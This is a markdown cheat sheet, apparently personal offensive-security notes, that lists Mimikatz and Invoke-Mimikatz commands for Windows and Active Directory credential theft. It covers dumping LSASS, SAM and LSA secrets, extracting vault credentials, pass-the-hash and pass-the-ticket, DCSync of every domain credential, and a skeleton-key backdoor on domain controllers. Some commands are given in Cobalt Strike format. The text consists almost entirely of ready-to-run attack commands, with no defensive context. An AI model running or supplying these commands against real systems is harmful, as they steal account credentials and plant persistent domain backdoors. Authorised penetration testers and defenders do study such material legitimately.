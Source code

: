 # Mimikatz

Invoke-Mimikatz commands:
 - Interesting credentials such as those set for Scheduled Tasks are stored in the Credential Vault. These can be extracted using:
`Invoke-Mimikatz -Command '"token::elevate" "vault::cred /patch"'`
 - Dump hashes on target machines
`Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername <targetserver>`
 - Skeleton Key
`Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"'
 - Dump hashes from SAM database (local users)
`Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"'`

These are currently directly lifted from https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet#powershell-remoting
I will add and edit as this cheatsheet progresses.

```
#The commands are in cobalt strike format!

#Dump LSASS:
mimikatz privilege::debug
mimikatz token::elevate
mimikatz sekurlsa::logonpasswords

#(Over) Pass The Hash
mimikatz privilege::debug
mimikatz sekurlsa::pth /user:<UserName> /ntlm:<> /domain:<DomainFQDN>

#List all available kerberos tickets in memory
mimikatz sekurlsa::tickets

#Dump local Terminal Services credentials
mimikatz sekurlsa::tspkg

#Dump and save LSASS in a file
mimikatz sekurlsa::minidump c:\temp\lsass.dmp

#List cached MasterKeys
mimikatz sekurlsa::dpapi

#List local Kerberos AES Keys
mimikatz sekurlsa::ekeys

#Dump SAM Database
mimikatz lsadump::sam

#Dump SECRETS Database
mimikatz lsadump::secrets

#Inject and dump the Domain Controler's Credentials
mimikatz privilege::debug
mimikatz token::elevate
mimikatz lsadump::lsa /inject

#Dump the Domain's Credentials without touching DC's LSASS and also remotely
mimikatz lsadump::dcsync /domain:<DomainFQDN> /all

#List and Dump local kerberos credentials
mimikatz kerberos::list /dump

#Pass The Ticket
mimikatz kerberos::ptt <PathToKirbiFile>

#List TS/RDP sessions
mimikatz ts::sessions

#List Vault credentials
mimikatz vault::list
```